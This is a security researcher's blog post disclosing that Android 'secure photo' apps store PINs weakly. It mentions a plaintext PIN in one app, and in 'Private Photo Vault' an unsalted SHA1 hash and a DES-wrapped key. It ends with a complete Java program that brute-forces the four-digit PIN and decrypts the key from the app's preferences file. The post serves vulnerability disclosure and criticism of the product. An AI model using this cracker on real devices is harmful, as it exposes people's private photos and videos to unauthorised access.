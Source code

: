 ```yaml
---
layout: post
title: Password Storage In Sensitive Apps
---
```

Well it isn’t the promised Pork Explosion disclosure, but I ensure you that is coming soon. I have word the update to mitigate it is done, and will be shipping this month. I do however have something else, an example of what Pork Explosion could be stacked with.

Last week I was contacted by a forensic specialist for a law enforcement agency. They had a phone that could make or break a very sensitive case, and their commercial mobile forensic tools were failing to do, well anything. They could not extract any data off the device. After verifying their identity and purpose, I agreed to help. Using a backdoor, very much like Pork Explosion, and some trickery we were able to fully extract all data off the device. This had me thinking, what next? What if this criminal was using another layer of security? What if they had a "secure storage" app, what if their photos, videos and what not were encrypted in an addition layer of security?

Off to the Google PlayStore, searched for "Secure Photo" and downloaded the first result, sure enough the files stored were encrypted.... but the PIN was stored in plaintext as a shared preference. Ok no fun, so I install the second result.

>“Have any photos or videos you don't want someone to see? Hide these private pics and vids securely with Private Photo Vault.”

The second result was [“Private Photo Vault”](https://privatephotovault.com/) by Legendary Software Labs LLC. It has a solid 4 star rating, 1,000,000 to 5,000,000 downloads, and was lasted updated just over two months ago. Using Pork Explosion, I rooted the device and extracted the data directory for Private Photo Vault. The initial results were more promising than the first app, no plaintext PIN stored in the shared preferences. The promise didn’t last long:

Stored in /data/data/com.enchantedcloud.photovault/shared_prefs/com.enchantedcloud.photovault_preferences.xml was what appeared to be the sha1 hash of the PIN and some base64 encoded key.

>name="pin" 7110eda4d09e062aa5e4a390b0a572ac0d2c0220
>name=“enc_keys_pin" Dar+SDapSbp1mKcztPYWi4vDcvGBNLM8B7WVy00MT1WK0gd2R4wAdg==

A quick test confirms:

>Jons-Mac-Pro:~ jcase$ echo -ne 1234|shasum
>7110eda4d09e062aa5e4a390b0a572ac0d2c0220

A single iteration of SHA1 is all that is protecting your PIN code (which is limited to four digits in length). Then DES is used, padding the PIN with “0” until it has a length of 8, to encrypt a key. I stopped analysis at this point, the app was already beyond broken. The app then goes on to use   Facebook’s Android encryption library [Conceal](https://github.com/facebook/conceal), but I did not go any further.

These companies are selling products that claim to securely store your most intimate pieces of data, yet are at most snake oil. You would have near equal protection just by changing the file extension and renaming the photos.


So for those that want to crack the pin and key for a “Private Photo Vault” installation, here you go.

~~~ java
public class Main {

    public static void main(String[] args) {
     
     // "pin" and "enc_keys_pin" from com.enchantedcloud.photovault_preferences.xml
        String hashedPIN = "7110eda4d09e062aa5e4a390b0a572ac0d2c0220"; // 1234
        String encKeyPin = "Dar+SDapSbp1mKcztPYWi4vDcvGBNLM8B7WVy00MT1WK0gd2R4wAdg=="; // 1e8a99cb-ebe8-452c-b9da-6466a8a60e02

        System.out.println("Cracking pin...");
        String PIN = crackPIN(hashedPIN);
        System.out.println("PIN is " + PIN);

        System.out.println("Decrypting Key...");
        String KEY = decryptKey(encKeyPin,PIN);
        System.out.println("KEY is " + KEY);
    }
    
    private static String decryptKey (String KEY, String PIN) {

        while (PIN.length() < 8) {
            PIN = PIN + 0;
        }

        SecretKey secKey = null;
        try {
            secKey = SecretKeyFactory.getInstance("DES").generateSecret(new DESKeySpec(PIN.getBytes("UTF8")));
            byte[] bKey = Base64.decode(KEY);
            Cipher cipher = Cipher.getInstance("DES");
            cipher.init(2, (secKey));
            return new String(cipher.doFinal(bKey));
        } catch (InvalidKeySpecException e) {
            e.printStackTrace();
        } catch (NoSuchAlgorithmException e) {
            e.printStackTrace();
        } catch (InvalidKeyException e) {
            e.printStackTrace();
        } catch (UnsupportedEncodingException e) {
            e.printStackTrace();
        } catch (BadPaddingException e) {
            e.printStackTrace();
        } catch (IllegalBlockSizeException e) {
            e.printStackTrace();
        } catch (NoSuchPaddingException e) {
            e.printStackTrace();
        }
        return null;
    }

    private static String crackPIN(String hashedPIN) {
        for (int i = 0; i <= 9999;i++) {
            String testPin = Integer.toString(i);
            while (testPin.length() < 4) {
                testPin = "0" + testPin;
            }
            try {
                MessageDigest md = MessageDigest.getInstance("SHA-1");
                md.reset();
                md.update(testPin.getBytes());
                if (hashedPIN.equals(bytesToHex(md.digest()))) {
                    return testPin;

                }
            } catch (NoSuchAlgorithmException e) {
                e.printStackTrace();
            }
        }
        return null;
    }

    private static String bytesToHex(byte[] bytes) {
        char[] hexArray = "0123456789abcdef".toCharArray();
        char[] hexChars = new char[bytes.length * 2];
        for ( int j = 0; j < bytes.length; j++ ) {
            int v = bytes[j] & 0xFF;
            hexChars[j * 2] = hexArray[v >>> 4];
            hexChars[j * 2 + 1] = hexArray[v & 0x0F];
        }
        return new String(hexChars);
    }
}
~~~
